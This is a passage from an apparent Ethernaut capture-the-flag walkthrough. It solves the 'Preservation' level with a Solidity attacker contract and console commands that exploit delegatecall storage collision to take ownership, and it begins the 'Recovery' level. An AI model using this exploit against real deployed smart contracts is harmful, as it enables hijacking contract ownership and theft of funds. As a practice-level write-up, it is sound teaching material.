     contract PreservationAttacker {
        
        address public placeholder1;
        address public placeholder2;
        address public gotcha;

        function setTime(uint256) public {
            gotcha = tx.origin;
        }

        function attack(address instance) external {
            uint key = uint(uint160(address(this)));
            IPreservation(instance).setFirstTime(key);
        }
    }

The layout of storage variables here is important, but we'll get to that. 

First, I'll deploy the contract and call `attack`:

    attacker = PreservationAttacker.deploy({'from': player})
    attacker.attack(instance, {'from': player})

Now we can check the `timeZone1Library` address in the browser console:

    await contract.timeZone1Library()

It should be the same as your attacker contract's address! Our attack function calls `setFirstTimeKey` with its own contract address converted to a uint as the input. The delegatecall causes this to actually set `timeZone1Library` to our contract address instead of updating `storedTime`.

Now `setFirstTime` will be making delegatecalls to our contract. Uh oh! We need to have a function whose signature matches `setTime(uint256)` but we can have anything we want within the function.

Remember that we're trying to set `owner` to our own address. This is where our storage layout comes into play. We can simply copy the Preservation contract's layout and then have our `setTime` function set the variable in the `owner` slot to our address.

This time we call Preservation directly in the browser console:

    await contract.setFirstTime(100) //the input doesn't matter since our function doesn't actually use it

    //check for success (should return your wallet address)
    await contract.owner()

Submit the level and move on.

## 18. Recovery

This is a pretty simple level. We need to call `destroy` on the SimpleToken contract, but we don't have its address. 

We do, however, have the transaction that created it. In the browser console, after you request a new instance, it should say 'Sent Transaction' with a link to the block explorer for the network you're using. Open that link.

Under the 'To:' section, it should have two transfers of .001 ETH: one to the level address and another from the level address to some other address. This other address is the one we want. You can even click on it to see that it has the .001 ETH balance we need to rescue. We just need to make our call to `destroy`.
